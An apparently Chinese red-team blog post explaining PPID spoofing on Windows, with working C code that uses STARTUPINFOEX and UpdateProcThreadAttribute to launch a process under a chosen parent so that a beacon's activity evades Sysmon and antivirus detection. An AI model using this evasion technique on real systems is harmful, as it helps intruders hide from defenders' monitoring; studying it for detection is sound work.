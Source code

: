 ```yaml
---
title: [渗透技巧]PPID欺骗
author: 二两
date: 2022-10-25 15:00:00 +0800
categories: [RedTeam]
tags: [pentest，post-exploitation]
---
```


## 0X00 PPID欺骗介绍

在我们使用CreateProcess API时，默认情况下，最后的进程将作为调用方的子进程生成。然而，"PPID欺骗"技术允许调用者更改派生进程的父进程。所以如果我们的beacon运行在powershell中，我们可以就将进程派生到一个完全不同的进程的子进程中，比如explorer.exe 。

这将导致Sysmon等应用程序记录新父级下的进程创建。当一个beacon在一个不合法的进程中运行(例如横向移动或其他一些漏洞传递)，并且进程创建事件会被杀软检测或被完全阻止，那么这个方法就有了其作用。

## 0x01 技术实现

这个技术是在[STARTUPINFOEX](https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/ns-winbase-startupinfoexw) 结构中实现的，这个结构具有LPPROC_THEAD_ATTRIBUTE_LIST属性。这允许我们向CreateProcess调用传递附加属性。对于PPID欺骗，我们关注的PROC_THREAD_ATTRIBUTE_PARENT_PROCESS。lpValue参数是指向要使用的进程句柄的指针，而不是将调用进程用作正在创建的进程的父进程。要使用的进程必须具有process_CREATE_process访问权限。 

下面用一段简短的代码来实现获取父进程PID和初始化

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	//获取父进程PID
	DWORD parentPid = atoi(argv[1]);

	//初始化
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

我们需要先知道所需的大小，然后分配一个内存区域来保存属性列表。这个列表可以有多个属性，但由于我们只对PROC_THREAD_ATTRIBUTE_PARENT_PROCESS感兴趣，因此大小为1。所以我们调用InitializeProcThreadAttributeList并提供NULL目标，但lpSize变量将填充我们需要的大小。因为这个API返回bool，所以这个调用也将始终返回FALSE。

```c
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

接下来我们使用malloc在STARTUPINFOEX的lpAttributeList属性上分配内存区域。我们再次调用InitializeProcThreadAttributeList，它应该返回TRUE。

```c
//为STARTUPINFOEX上的属性列表分配内存
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

//再次调用InitializeProcThreadAttributeList，此时应返回TRUE
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

获取父进程的句柄并将其传递到UpdateProcThreadAttribute的调用中。 

```c
//获取进程的句柄以充当父进程
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

//调用UpdateProcThreadAttribute
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

剩下要做的就是调用CreateProcess，确保传递EXTENDED_STARTUPINFO_PRESENT

```c
//调用CreateProcess并传递EXTENDED_STARTUPINFO_PRESENT
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("PID created: %d", pi.dwProcessId);
return 1;
```

## 0x02  实现效果

![](../img/ppid_success_1.jpg)

![](../img/ppid_success_2.jpg)



## 0x03 小结

本文介绍了PPID欺骗实现原理以及怎么用Windows API 去实现

### 注：本文仅用于安全研究和学习之用